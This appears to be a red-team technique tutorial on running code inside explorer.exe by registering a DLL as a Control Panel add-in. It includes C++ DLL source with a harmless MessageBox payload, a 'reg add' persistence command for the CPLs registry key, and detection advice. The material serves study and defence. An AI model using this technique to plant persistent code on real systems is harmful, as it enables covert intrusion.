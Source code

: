 # Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.

{% hint style="info" %}
This technique could also be considered for persistence.
{% endhint %}

## Execution

Let's compile our control panel item \(which is a simple DLL with an exported function `Cplapplet`\) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in \(defenders beware of these registry modifications\):

```text
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```

![](../../.gitbook/assets/image%20%28705%29.png)

Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:

![](../../.gitbook/assets/control-panel-item-addin.gif)

Below shows that our DLL is injected into explorer.exe:

![](../../.gitbook/assets/image%20%28526%29.png)

## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET_InvisiMole.pdf)


